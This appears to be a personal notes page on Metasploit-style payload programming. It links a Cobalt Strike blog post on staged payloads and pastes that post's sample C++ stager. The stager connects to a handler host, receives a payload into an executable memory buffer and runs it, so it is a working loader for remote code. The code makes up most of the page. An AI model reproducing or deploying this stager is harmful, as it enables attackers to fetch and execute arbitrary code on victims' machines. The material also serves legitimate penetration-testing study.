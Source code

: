 <!-- TITLE: Metasploitprogramming -->
<!-- SUBTITLE: A quick summary of Metasploitprogramming -->

# C++ Payload stuff
https://blog.cobaltstrike.com/2013/06/28/staged-payloads-what-pen-testers-should-know/

Talks about how a listener works.  Has sample code.  Pasting in sample code because it's cool and I don't want to lose it.

```text
/* connect to the handler */
SOCKET my_socket = wsconnect(argv[1], atoi(argv[2]));
 
/* read the 4-byte length */
int count = recv(my_socket, (char *)&size, 4, 0);
if (count != 4 || size <= 0)     punt(my_socket, "read a strange or incomplete length value\n"); 

/* allocate a RWX buffer */ 
buffer = VirtualAlloc(0, size + 5, MEM_COMMIT, PAGE_EXECUTE_READWRITE); 

if (buffer == NULL)     punt(my_socket, "could not allocate buffer\n"); 

/* prepend a little assembly to move our SOCKET value to the EDI register    
thanks mihi for pointing this out    
BF 78 56 34 12     =>      mov edi, 0x12345678 */

buffer[0] = 0xBF;
 
/* copy the value of our socket to the buffer */
memcpy(buffer + 1, &my_socket, 4);
 
/* read bytes into the buffer */
count = recv_all(my_socket, buffer + 5, size);
 
/* cast our buffer as a function and call it */
function = (void (*)())buffer;
function();
```

